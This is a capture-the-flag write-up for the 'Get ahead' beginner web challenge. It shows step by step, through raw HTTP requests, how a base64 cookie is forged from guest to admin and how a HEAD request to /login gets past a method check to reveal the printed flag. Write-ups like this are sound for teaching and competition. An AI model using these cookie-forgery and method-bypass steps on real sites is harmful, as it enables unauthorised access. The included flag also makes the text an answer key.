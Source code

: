 # Get ahead

- **Category:** beginner - web

## Challenge

> When trust has gone, each of us is alone. Trust is a very fragile thing.

I wonder what options we have here?

http://get-ahead.chal.cybears.io:8000

## Solution

Endpoints:
- /
- /login
- /list_users
- /add_user
- /display_flag


```
GET /list_users HTTP/1.1
```
returns
```
HTTP/1.1 405 METHOD NOT ALLOWED
Server: gunicorn
Date: Fri, 09 Apr 2021 00:28:11 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Allow: OPTIONS, POST
Content-Length: 178

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

Try POST
```
POST /list_users HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=Z3Vlc3Q6a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
```

`admin` is a user
```
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 09 Apr 2021 00:28:33 GMT
Connection: close
Content-Type: application/json
Content-Length: 69

{"user1": "admin", "user2": "guest", "user3": "api", "user4": "user"}
```

Using burp to get flag
```
GET /display_flag HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=Z3Vlc3Q6a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
```

No flag, require correct flag param
```
GET /display_flag HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=Z3Vlc3Q6a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
```

try
```
GET /display_flag?flag=admin HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=Z3Vlc3Q6a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
Content-Length: 4
```

Just repeats the param
```
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 09 Apr 2021 00:53:47 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 191

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>FLag Display</title>
</head>
<body>
<p>The flag given in the GET parameter is: <em>admin</em></p>
</body>
</html>
```

Notice userID is base64 encoded
`Z3Vlc3Q6a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==`
decodes to
`guest:kl2RtRH6KfSAwIcq24a7u/uUTjAajqOYsT88Ij49KA77qHWsbhCEn003zJFY6ggaKwzOsPPsHvHRAPCMQg3JPA==`

Encode
`admin:kl2RtRH6KfSAwIcq24a7u/uUTjAajqOYsT88Ij49KA77qHWsbhCEn003zJFY6ggaKwzOsPPsHvHRAPCMQg3JPA==`
gives
`YWRtaW46a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==`

Try login with HEAD method with new userID and follow redirects
```
HEAD /login HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=YWRtaW46a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
```

```
GET /display_flag?flag=cybears{h34d_requ3sts_4r3_fun} HTTP/1.1
Host: get-ahead.chal.cybears.io:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: userID=YWRtaW46a2wyUnRSSDZLZlNBd0ljcTI0YTd1L3VVVGpBYWpxT1lzVDg4SWo0OUtBNzdxSFdzYmhDRW4wMDN6SkZZNmdnYUt3ek9zUFBzSHZIUkFQQ01RZzNKUEE9PQ==
Upgrade-Insecure-Requests: 1
````

Flag
```
cybears{h34d_requ3sts_4r3_fun}
```
